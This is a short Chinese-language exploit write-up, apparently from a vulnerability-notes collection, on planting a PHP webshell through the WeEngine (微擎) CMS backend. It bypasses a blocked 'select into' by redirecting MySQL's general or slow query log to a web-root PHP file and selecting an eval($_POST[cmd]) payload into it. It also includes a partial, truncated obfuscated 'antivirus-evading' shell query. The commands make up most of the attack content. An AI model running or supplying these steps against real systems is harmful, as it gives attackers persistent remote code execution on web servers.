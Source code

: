 微擎 绕过禁用函数写shell
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1.站点设置里面打开调试

![](./.resource/微擎后台绕过禁用函数写shell/media/rId25.png)

### 2.执行语句

select into被禁止

![](./.resource/微擎后台绕过禁用函数写shell/media/rId27.png)

### 3.利用日志文件写shell

    show variables like '%general%';  #查看配置

    set global general_log = on;  #开启general log模式

    set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址

    select '<?php eval($_POST[cmd]);?>'  #写入shell

![](./.resource/微擎后台绕过禁用函数写shell/media/rId29.png)

### 4.SQL查询免杀shell的语句

    SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$

### 补充:来自土司\@GuoKerSb的分享

在无法修改general\_log\_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow\_query\_log（慢查询日志，默认关闭）来写shell

    set global slow_query_log=1;
    set global slow_query_log_file='/var/www/html/1.php';
    select '<?php eval($_POST[cmd]);?>' or sleep(11);

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html>
